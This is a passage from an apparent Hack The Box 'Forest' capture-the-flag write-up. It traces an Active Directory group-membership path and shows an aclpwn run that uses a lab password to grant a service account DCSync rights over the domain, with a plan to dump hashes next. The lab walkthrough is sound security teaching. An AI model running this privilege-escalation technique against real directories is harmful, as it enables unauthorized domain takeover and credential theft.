 So from that, the following are true:

* `svc-alfreso` is a member of `Service Accounts@htb.local`.
* `Service Accounts@htb.local` is a member of `Privileged IT accounts@htb.local`.
* `Privileged IT accounts@htb.local` is a member of `Account Operators@htb.local`.
* Members of the group `Account Operators@htb.local` have **GenericAll** privileges to the `Exchange Windows Permissions@htb.local` group which alows full control.
* `Exchange Windows Permissions@htb.local` have permissions to modify the discrestionary access control list (DACL) on the `htb.local` domain. This will allow me to grant myself any privileges I want on that object (the domain).

With that game plan, time to get to work. Bloodhound is really a tool that gets you data, you still need to take that data and actually do the work. Theres another tool that uses the bloodhound data called [aclpwn](https://github.com/fox-it/aclpwn.py) that uses the path identified and will execute what is necessary to get you down that path. I want to give it a shot:

```console
root@discovery:~/htb/forest# aclpwn -f svc-alfresco -t htb.local -d htb.local -s 10.10.10.161 -u svc-alfresco -p s3rvice
Please supply the password or LM:NTLM hashes of the account you are escalating from: 
[+] Path found!
Path [0]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
[!] Unsupported operation: GenericAll on EXCH01.HTB.LOCAL (Computer)
[-] Invalid path, skipping
[+] Path found!
Path [1]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL)-[MemberOf]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
[!] Unsupported operation: GetChanges on HTB.LOCAL (Domain)
[-] Invalid path, skipping
Please choose a path [0-1] 1
[-] Memberof -> continue
[-] Memberof -> continue
[-] Memberof -> continue
[-] Adding user svc-alfresco to group EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL
[+] Added CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local as member to CN=Exchange Trusted Subsystem,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
[-] Switching context to svc-alfresco
[+] Done switching context
[-] Memberof -> continue
[-] Modifying domain DACL to give DCSync rights to svc-alfresco
[+] Dacl modification successful
[+] Finished running tasks
[+] Saved restore state to aclpwn-20200222-163611.restore
```
So theoretically I should have added `svc-alfresco` to the domain to have full rights. I still can't use this account specifically to get onto the machine. But I should be able to read what `system` or `administrator` can read. I kind of got stuck here for a bit trying to figure out what to do next until I looked it through the lens of "what would I do if this was a linux box". I could dump the contents of `/etc/shadow` and then log in as `root`. Time to try the same here.
